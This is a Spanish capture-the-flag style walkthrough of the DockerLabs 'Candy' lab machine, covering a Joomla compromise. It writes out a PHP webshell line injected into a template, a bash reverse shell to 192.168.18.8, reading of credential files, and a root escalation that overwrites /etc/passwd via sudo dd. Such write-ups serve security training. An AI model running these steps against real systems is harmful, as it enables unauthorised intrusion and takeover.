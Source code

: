 ```yaml
---
layout: post
title: "Candy"
date: 2024-11-13
 13:45:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Candy </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

**1\.** Descubrimos los puertos abiertos de la maquina; tenemos solo el puerto 80 abierto y nos reporta el robots.txt activo.

`sudo nmap -p- --open -T5 --min-rate=5000 -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/candy/nmap.png){:.margin}

**2\.** En la web tenemos un panel login, si vemos el codigo fuente podemos ver que corre joomla como gestor de contenido.

`http://172.17.0.2/`

![img](/notas/public/img/dockerlabs/candy/webindex.png){:.margin}
![img](/notas/public/img/dockerlabs/candy/webindexcode.png){:.margin}

**3\.** Podemos usar la herramienta joomscan, pero en este caso veamos el robots.txt; vemos el directorio del administrador y al final tenemos unas credenciales , esto tambien lo podemos ver en la ruta /un_caramelo.

`http://172.17.0.2/robots.txt`

![img](/notas/public/img/dockerlabs/candy/robots.png){:.margin}
![img](/notas/public/img/dockerlabs/candy/uncaramelo.png){:.margin}

**4\.** Para identificar el hash la contraseña de admin podemos usar [hash_identifier](https://hashes.com/en/tools/hash_identifier), ya sabiendo que es base64 procedemos a decodearlo.

`echo "c2FubHVpczEyMzQ1" | base64 -d ; echo`

![img](/notas/public/img/dockerlabs/candy/hashid.png){:.margin}
![img](/notas/public/img/dockerlabs/candy/base64decode.png){:.margin}

**5\.** Vamos al panel administrativo de joomla y accedemos con las credenciales; una vez dentro vamos a system -> site_templates -> cassiopeia details and files.

`http://172.17.0.2/administrator/`

![img](/notas/public/img/dockerlabs/candy/joomla.png){:.margin}
![img](/notas/public/img/dockerlabs/candy/joomlacassiopeia.png){:.margin}

**6\.** Editamos el index.php le agregamos nuestro codigo para obtener un webshell.

`system($_GET['cmd']);`

![img](/notas/public/img/dockerlabs/candy/indexedit.png){:.margin}
![img](/notas/public/img/dockerlabs/candy/webshellid.png){:.margin}

**7\.** Nos ponemos en escucha con nc, procedemos a enviarnos la reverse shell; ya tendriamos la conexion exitosa.

`nc -nlvp 4000`

`bash -c "bash -i >%26 /dev/tcp/192.168.18.8/4000 0>%261"`

![img](/notas/public/img/dockerlabs/candy/reverseshell.png){:.margin}
![img](/notas/public/img/dockerlabs/candy/ncconnected.png){:.margin}

**8\.** Encontramos este fichero donde tenemos las creds para ingresar aparentemente a la bd, pero esto no funciona. Lo que si funciona es migrar al usuario luisillo.

`cat /var/backups/hidden/otro_caramelo.txt`

`su luisillo`

![img](/notas/public/img/dockerlabs/candy/dbcreds.png){:.margin}
![img](/notas/public/img/dockerlabs/candy/suluisillo.png){:.margin}

**9\.** Ahora escalamos a root aprovechando que tenemos un binario SUID. Echa un ojo en [gtfobins](https://gtfobins.github.io/gtfobins/dd/#sudo).

`sudo -l`

![img](/notas/public/img/dockerlabs/candy/sudol.png){:.margin}

_9.1- Hacemos una copia de passwd para modificar su contenido, antes generamos una contraseña_

`cat /etc/passwd > backuppasswd`

`openssl passwd`

![img](/notas/public/img/dockerlabs/candy/openssl.png){:.margin}

_9.2- Editamos el backuppasswd y sustituimos la x por la nueva contraseña de root_

`nano backuppasswd`

![img](/notas/public/img/dockerlabs/candy/nanobackuppasswd.png){:.margin}
![img](/notas/public/img/dockerlabs/candy/nanobackuppasswd2.png){:.margin}

_9.3- Hacemos uso del binario dd para sobreescribir el passwd con las nuevas modificaciones; vemos que ya se modifico_

`cat backuppasswd | sudo /bin/dd of=/etc/passwd`

`grep root /etc/passwd`

![img](/notas/public/img/dockerlabs/candy/copydd.png){:.margin}

_9.4- Por ultimo migramos a root con la nueva contraseña generada_

`su root`

![img](/notas/public/img/dockerlabs/candy/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>